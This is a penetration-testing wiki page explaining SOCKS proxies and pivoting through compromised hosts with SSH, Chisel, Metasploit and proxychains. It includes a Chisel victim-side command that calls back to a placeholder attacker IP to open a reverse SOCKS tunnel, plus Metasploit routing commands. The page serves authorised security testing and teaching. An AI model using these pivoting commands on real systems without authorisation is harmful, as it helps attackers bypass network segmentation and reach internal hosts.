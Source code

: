 # 🛠️ SOCKS proxy

## Theory

SOCKS (SOCKet Secure) is a network protocol that allows users to route network traffic to a server on a client's behalf. SOCKS is between the application and the transport layer of the OSI model.

This is especially useful for penetration testing engagements where a target is hiding behind one or multiple firewalls. A compromised server connected to two networks can be used as a SOCKS proxy server to pivot from a network to another.

In short, a SOCKS proxy can relay TCP and UDP connections and hence help bypass network segmentation. It's sort a dynamic [port forwarding](port-forwarding.md) technique.

## Practice

There are two types of dynamic port forwarding used during penetration testing engagements.

* Dynamic port forwarding: tunnel the whole attacker's network traffic (instead of only one port) through a remote machine.
* Reverse dynamic port forwarding: tunnel the whole network traffic from a remote machine through the attacker's machine.

### Basic server setup

> [!TIP]
> While setting up port forwarding, it's important to remember that non-admin users can only open ports above 1024.

In practice, there are many ways to turn a controlled machine into a SOCKS proxy server.

::: tabs

=== SSH commands

One of the most easy is by relying on SSH, however, it requires to have an SSH server running on the controlled machine and a valid account. The tester needs to open an SSH connection to the machine that should be turned into a SOCKS proxy, and supply the `-D` option along with the port to use for tunneling. The command can also be used with `-N` option to make sure no command gets executed after the SSH session is opened.

```bash
ssh -N -D $PORT $CONTROLLED_TARGET
```

Once the ssh command exits successful (or once a session opens) the tester can then proceed to [the usage part](socks-proxy.md#usage). 

A reverse dynamic port forwarding can be also put in place to tunnel a machine's traffic through the attacker machine. It is implemented entirely in the client (i.e. the server does not need to be updated) ([since OpenSSH 7.6](https://www.openssh.com/txt/release-7.6)).

```bash
ssh -N -R $PORT $CONTROLLED_TARGET
```


=== Chisel

[Chisel](https://github.com/jpillora/chisel) is a standalone binary for pivoting on Linux and Windows systems.

Working on a server/client, the binary simply needs to be uploaded on the victim host and executed as server on the attacker machine.

```bash
# attacker
chisel server --reverse --socks5 -p $PORT

# victim
chisel client $ATTACKER_MACHINE_IP:$ATTACKER_MACHINE_PORT R:socks
```


=== SSH config




=== Metasploit

A meterpreter session can be taken advantage of by setting up a SOCKS proxy with the appropriate module.

The first steps consists in creating a route, from a meterpreter shell to the target

```bash
meterpreter > run autoroute -s 10.11.1.0/24
```

The session can then be put in background and, the SOCKS server can be created.

```bash
msf > use auxiliary/server/socks_proxy
msf > set SRVPORT $PORT
msf > set VERSION 4a
msf > run
```

=== Cobalt Strike

=== proxychains

=== 3proxy

=== plink

:::


### Basic client usage

Once the SOCKS proxy server is set up, network traffic can be tunneled through with [proxychains-ng](https://github.com/rofl0r/proxychains-ng) (C), a tool still maintained and more advanced based on the original [proxychains](https://github.com/haad/proxychains) (that is not maintained anymore). The port in use by the SOCKS proxy should be supplied in the configuration file (`/etc/proxychains.conf`) like in the following examples.

```bash
# type ip port [user pass]
socks5 192.168.67.78 1080 lamer secret
socks4 192.168.11.49 1080
http 192.168.89.33 8080 justu hidden
http 192.168.39.93 8080
```

### Chaining proxies

In certain scenarios, SOCKS proxies can be chained. This can easily be used with [proxychains](socks-proxy.md#client-usage). In the following example, SSH is used to turn compromised machines into SOCKS proxy servers.

![](<./assets/Chained dynamic port forwarding diagram.png>)

![](<./assets/Chained dynamic port forwarding commands SSH.png>)
Setting up the SOCKS proxy servers (with SSH){.caption}

![](<./assets/Chained dynamic port forwarding commands proxychains.png>)
Setting up the SOCKS proxy client (proxychains){.caption}

![](<./assets/Chained dynamic port forwarding commands SOCKS.png>)
Attacking the target through the chain of SOCKS proxies{.caption}
